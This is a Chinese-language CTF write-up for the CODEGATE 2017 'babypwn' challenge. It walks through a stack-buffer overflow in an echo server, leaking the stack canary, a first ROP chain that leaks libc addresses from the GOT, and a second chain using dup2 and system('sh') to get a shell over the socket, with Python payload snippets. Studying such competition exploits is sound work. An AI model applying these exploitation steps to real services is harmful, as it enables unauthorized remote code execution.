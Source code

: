 ```yaml
---
title: '[CODEGATE CTF 2017] babypwn 50'
author: Naetw
tags:
  - pwn
  - CODEGATE CTF 2017
  - stack overflow
  - ROP
categories:
  - write-ups
date: 2017-02-11 10:38:40
---
```


這是這次比賽唯一解出的一題 Orz，最近 BambooFox 人越來越少了，自己戰力也不足@@ 分析太慢經驗也太少...

## Analyzing

32 bit ELF, Partial RELRO, 有 canary & NX, 沒有 PIE

如同他的名字是一個蠻簡單的題目。有一個明顯的 stack overflow 漏洞，唯一比較麻煩的部分是 socket 的部分，因為這部分還沒學過，也就不多說了，會影響的只有最後 ROP 的部分。

程式主要功能在 `0x08048A71` function 裡，前面都在做 socket 的建置，如果要在 local 端測試的話，會先用 `ncat -vc ./babypwn -kl 127.0.0.1 4000` 架起來，看了一下 src，我們會先 `nc localhost 4000`，之後程式就會跑起來，並且把主要功能開在 port 8181，所以一旦 `nc localhost 4000` 過，之後測試就用 8181 這個 port 來測試就行了。

連上去之後，程式行為很簡單：

```
===============================
1. Echo
2. Reverse Echo
3. Exit
===============================
Select menu > 1
Input Your Message : AAAA
AAAA

===============================
1. Echo
2. Reverse Echo
3. Exit
===============================
Select menu >
```

就是一個 echo server，第一直覺以為會是 format string，但是就是簡單的 echo 行為，不過在 echo 時，可以用 overflow 來 leak canary，後面才能利用 ROP 來做事。

**overflow**：

開 ida pro 來看
```
char buf; // [sp+24h] [bp-34h]@1
...
socket_recv(&buf, 100)
```

這邊很明顯的 overflow，buf 的開頭距離 ebp 有 52，但是卻可以 input 100 bytes，因此這邊先算好跟 canary 的 offset，然後把 buf 塞成以下樣子：

```
0xff951f54:     0x41414141      0x41414141      0x41414141      0x41414141
0xff951f64:     0x41414141      0x41414141      0x41414141      0x41414141
0xff951f74:     0x41414141      0x41414141      0x4409b50a      0x00000000
```
上面的 `0x4409b50a` 就是 canary，不過因為 canary 的 first byte 都會是 '\x00'，因此這邊用 '\x0a' 也就是換行把它蓋著，才能接著把後面的值 dump 出來後，把 '\x0a' 換成 '\x00' => `0x4409b500` 就是這個 binary 的 canary。

這邊有了 canary 後就可以繞過 stack guard 的檢查，疊 ROP 來控制 eip 了，不過這邊還是沒辦法開 shell，因為 socket 的 file descriptor 跟 stdin & stdout 不同，所以我們會需要先用 `dup2` 來讓 stdin & stdout 跟 socket 的 file descriptor 接起來，之後就能開 interactive shell on socket server。

但是要用到 `dup2` 會需要 libc base，這邊我們先做第一次的 ROP，把 GOT entry 上的 libc function address leak 出來，之後利用 [libc database](http://libcdb.com) 來找出遠端 server 的 libc 版本，此外我們也要先把 file descriptor leak 出來。

因此這次 ROP 我們 payload 如下：

```python
socket_send = 0x080488B1
pop1 = 0x08048589
sigemptyset_got = 0x0804B048
echo_select = 0x08048A71
fd_address = 0x0804B1B8
rop1 = [socket_send, pop1, sigemptyset_got, 
        socket_send, echo_select, fd_address]
payload = 'A'*40 +      # padding to canary
        p32(canary) +
        'A'*12 +        # padding to return address
        ''.join(map(p32, rop1))
```

這裡的 `socket_send` 用的是原本就寫好用來 echo input 的 function，`pop1` 則是利用 [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) 找到的一個 pop 一次後 ret 的 gadget，而 `echo_select` 則是上面提到的主要 function 的位址，因為 leak 玩東西之後我們要再做一次 ROP 來使用 `dup2` 以及開 shell。

這裡他會從 `sigemptyset_got` 開始 leak 很多 libc function，我拿前面四個到上面說的 libc database 查版本是可以查到的。

拿到 libc base 之後，直接在疊一次 ROP，這次 ROP 會用 `dup2` 把 stdin & stdout 跟 socket 的 fd 接起來，之後馬上開 shell：

```python
pop2 = 0x08048B84
sh = base + next(libc.search('sh\x00'))
rop2 = [dup2, pop2, fd, 1,
        dup2, pop2, fd, 0,
        system, 0xdeadbeef, sh]
payload = 'A'*40 +      # padding to canary
        p32(canary) +
        'A'*12 +        # padding to return address
        ''.join(map(p32, rop2))
```

疊完之後，利用 choice 3 - exit 他會用 return 結束，就可以接到我們寫上去的 ROP gadgets 了。


## Note

這次題目開了兩個 port，第一個 port 似乎太多人連...導致開 shell 不知道為啥開不起來，同樣的 payload 在第二個 port 十分順利＠＠
